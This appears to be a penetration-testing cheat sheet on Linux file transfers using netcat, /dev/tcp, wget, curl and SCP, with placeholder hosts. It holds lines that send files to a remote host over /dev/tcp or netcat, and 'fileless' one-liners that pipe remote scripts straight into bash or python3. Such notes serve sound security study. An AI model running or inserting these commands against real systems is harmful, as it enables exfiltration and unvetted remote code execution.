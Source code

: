 ## Linux
### Netcat

Receiver:
```
nc -nlvp 9989 > <<FILE>>
```

Sender:
```
nc -w 3 <<IP>> 9989 < <<FILE>>
```


Sender:
```
cat file > /dev/tcp/<<IP>>/<<PORT>>
```

Receiver:
```
nc -lnvp <<PORT>> > <<FILE>>
```


### Wget

```
wget http://<<IP>>:<<PORT>>/<<FILE>>
```

```
wget http://<<IP>>:<<PORT>>/<<FILE>> -O <<OUTPUT_FILE>>
```
#### Fileless Download

```
wget -qO- http://<<IP>>:<<PORT>>/<<FILE>>/script.py | python3
```
### Curl

```
curl http://<<IP>>:<<PORT>>/<<FILE>> -o <<OUTPUT_FILE>>
```
#### Fileless Download

```
curl http://<<IP>>:<<PORT>>/script.sh | bash
```

### SCP

#### Starting the SSH Server

Enabling the SSH Server
```
sudo systemctl enable ssh
```
